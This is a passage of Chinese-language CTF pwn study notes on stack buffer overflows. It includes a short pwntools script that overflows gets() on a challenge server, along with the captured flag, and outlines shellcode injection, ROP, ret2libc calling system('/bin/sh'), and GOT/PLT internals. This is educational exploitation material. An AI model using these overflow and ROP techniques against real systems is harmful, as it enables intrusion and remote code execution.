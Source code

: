       可以看出v5和v4的距离是8个字节，gets(&v4)时输入8字节的数据和1926就可以把v5修改为1926

      ```python
      from pwn import *
      r = remote("ctf.acdxvfsvd.net",1926)
      payload='a'*8 + p32(1926)
      r.recvuntil("What\'s Your Birth?\n")
      r.sendline("1234")
      r.recvuntil("What\'s Your Name?\n")
      r.sendline(payload)
      r.interactive()
      
      #flag{gets_is_dangerous_+1s}
      ```

      

  * #### shellcode

    修改返回地址，让其指向溢出数据中的一段指令 

    **CSAPP-Buffer-Lab-level2-firecracker**

    **XMAN]level1**

    

  * #### ROP

    ROP(Return Oriented Programming) ，在栈缓冲区溢出的基础上，利用程序中已有的小片段 (gadgets) 来改变某些寄存器或者变量的值，从而控制程序的执行流程。

    - ##### 条件

      1. 程序存在溢出，并且可以控制返回地址。
      2. 可以找到满足条件的 gadgets 以及相应 gadgets 的地址。 

    - ##### ret2libc

      控制函数的执行 libc 中的函数

      通常执行`system("/bin/sh")`

      - ###### GOT表和PLT表

        - .got

          Global Offset Table，全局偏移表。这是链接器在执行链接时实际上要填充的部分， 保存了所有外部符号的地址信息

        - .plt

          Procedure Linkage Table，进程链接表

          调用链接器来解析某个外部函数的地址，并填充到.got.plt中，然后跳转到该函数，直接在.got.plt中查找并跳转到对应外部函数（如果已经填充过）

        - .got.plt

          相当于.plt的GOT全局偏移表，其内容有两种情况，如果在之前查找过该符号，内容为外部函数的具体地址；如果没查找过，则内容为跳转回.plt的代码,，并执行查找.。

        ![9](https://raw.githubusercontent.com/AiDaiP/images/master/pwn/9.png)

        - ##### 重定位

          - ###### 链接时重定位
